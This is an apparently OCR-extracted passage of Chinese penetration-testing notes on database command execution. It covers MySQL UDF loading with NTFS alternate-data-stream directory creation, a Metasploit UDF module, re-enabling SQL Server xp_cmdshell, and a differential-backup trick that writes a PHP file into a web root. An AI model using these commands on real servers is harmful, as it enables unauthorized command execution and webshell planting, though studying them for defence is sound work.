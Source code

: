3、UDF命令执行

特别要提的点，1、将UDF.dll写入到plugin文件夹中需要有mysql任意写权限，也就是secure_file_priv要为空    2、UDF.dll必须要在plugin目录下。

```
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION'; //利用NTFS ADS创建lib目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION';//利用NTFS ADS创建plugin目录 
```

另外msf中也有udf的模块，大家可以自行摸索。

```
multi/mysql/mysql_udf_payload
```

 https://www.freebuf.com/articles/system/163144.html 

**SQL_SERVER:**

1、使用master..xp_cmdshell

```
exec master..xp_cmdshell 'whoami';
```

一般在安全策略影响下会默认关闭，执行以下命令打开cmdshell

```
exec sp_configure 'show advanced options', 1; //开启高级选项
RECONFIGURE; //配置生效
exec sp_configure'xp_cmdshell', 1; //开启xp_cmdshell
RECONFIGURE; //配置生效
```

关于sqlserver开启master..xp_cmdshell失败的几种处理方法

 https://www.cnblogs.com/merlun/p/7427182.html 

2、差异备份getshell

```
create database test2;
use test2;
create table test(cmd varchar(300));
insert into test(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);
backup database test2 to disk='C:\\phpstudy\\WWW\\test.php' WITH DIFFERENTIAL,FORMAT;
```
